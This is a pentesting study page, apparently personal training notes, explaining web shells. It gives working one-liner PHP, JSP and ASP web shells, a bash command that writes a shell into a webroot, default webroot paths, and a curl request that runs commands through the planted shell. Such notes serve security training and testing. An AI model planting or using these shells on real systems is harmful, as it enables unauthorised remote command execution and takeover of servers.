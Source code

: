 ```yaml
---
title: Web Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
  - web shells
---
```


# Web shells

!!! example "Preconfigured webshells in Kali linux"
    Go to /usr/share/webshells/
    

A Web Shell is typically a web script that accepts our command through HTTP request parameters, executes our command, and prints its output back on the web page.

A web shell script is typically a one-liner that is very short and can be memorized easily.


## Some basic web shells

### php

```php
<?php system($_REQUEST["cmd"]); ?>
```

- [Pentesmonkey webshell](pentesmonkey.md).
- [WhiteWinterWolf webshell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php).

### jsp

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

### asp

```asp
<% eval request("cmd") %>
```


## How to exploit a web shell

### File upload vs Remote code execution

**1.** **FILE UPLOAD: By abusing an upload feature.** We would place this web shell script into the remote host's web directory to execute the script through the web browser.

**2.** **REMOTE CODE EXECUTION: By writting our one-liner shell to the webroot to access it over the web**. This would be if onle have remote command execution as a exploit vector. Here an example for bash:

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

So, for the second way of exploitation, it's relevant to identify where the webroot is. The following are the default webroots for common web servers:

| Web Server | Default Webroot |
| ------------ | ----------------- |
| Apache | /var/www/html/ |
| Nginx | /usr/local/nginx/html/ |
| IIS | c:\inetpub\wwwroot\ | 
| XAMPP | C:\xampp\htdocs\ | 

### Accessing the web shell

We can access to the web shell using the browser. Or Curl:

```shell-session
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

A  benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on 80 or 443, or whatever port the web application is using. 


## Tools

[About webshells](https://github.com/BlackArch/webshells).

[Laudanum](laudanum.md)

[nishang](nishang.md)
